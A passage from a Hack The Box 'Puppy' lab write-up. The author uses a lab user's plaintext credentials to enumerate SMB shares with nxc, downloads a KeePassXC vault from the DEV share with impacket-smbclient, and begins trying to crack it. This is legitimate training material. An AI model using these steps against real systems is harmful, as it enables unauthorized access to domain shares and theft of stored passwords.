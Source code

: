 And Levi could now access the `DEV` share.

```
fcoomans@kali:~/htb/puppy$ nxc smb dc.puppy.htb -u levi.james -p KingofAkron2025! --shares
SMB         10.10.11.70     445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.10.11.70     445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025!
SMB         10.10.11.70     445    DC               [*] Enumerated shares
SMB         10.10.11.70     445    DC               Share           Permissions     Remark
SMB         10.10.11.70     445    DC               -----           -----------     ------
SMB         10.10.11.70     445    DC               ADMIN$                          Remote Admin
SMB         10.10.11.70     445    DC               C$                              Default share
SMB         10.10.11.70     445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.10.11.70     445    DC               IPC$            READ            Remote IPC
SMB         10.10.11.70     445    DC               NETLOGON        READ            Logon server share
SMB         10.10.11.70     445    DC               SYSVOL          READ            Logon server share
```

`impacket-smbclient` was used to access the `DEV` share, which contained a KeePassXC password vault.  I downloaded a copy of this password database.

```
fcoomans@kali:~/htb/puppy$ impacket-smbclient 'puppy.htb/levi.james:KingofAkron2025!@dc.puppy.htb'
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies

Type help for list of commands
# shares
ADMIN$
C$
DEV
IPC$
NETLOGON
SYSVOL
# use DEV
# tree
/KeePassXC-2.7.9-Win64.msi
/recovery.kdbx
Finished - 1 files and folders
# get recovery.kdbx
# exit
```

#### 🔓 Cracking the KeePassXC master password

And then I found that the vault was not a KeePass vault, but a KeePassXC vault.  The master password for KeePassXC cannot be as easily cracked using John or Hashcat.

```
fcoomans@kali:~/htb/puppy$ keepass2john recovery.kdbx
! recovery.kdbx : File version '40000' is currently not supported!
```
